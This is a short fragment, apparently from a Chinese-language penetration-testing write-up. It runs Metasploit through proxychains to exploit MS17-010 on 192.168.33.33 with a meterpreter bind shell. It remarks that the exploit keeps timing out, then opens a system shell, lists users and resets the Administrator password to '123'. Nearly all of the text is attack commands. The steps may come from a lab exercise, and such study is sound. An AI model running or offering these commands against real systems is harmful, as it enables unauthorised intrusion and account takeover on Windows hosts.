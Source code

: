 ```
proxychains msfconsole    
search ms17_010
use 1
set payload windows/meterpreter/bind_tcp
set RHOST 192.168.33.33
run
```

![截图](262ae734399167476565dff1d6170ab0.png)

但是太不稳定了，总是超时。

![截图](66589290c6035e2c51328f0a15eb5569.png)

```
meterpreter > shell
C:\Windows\system32>net user
C:\Windows\system32>net user Administrator 123
```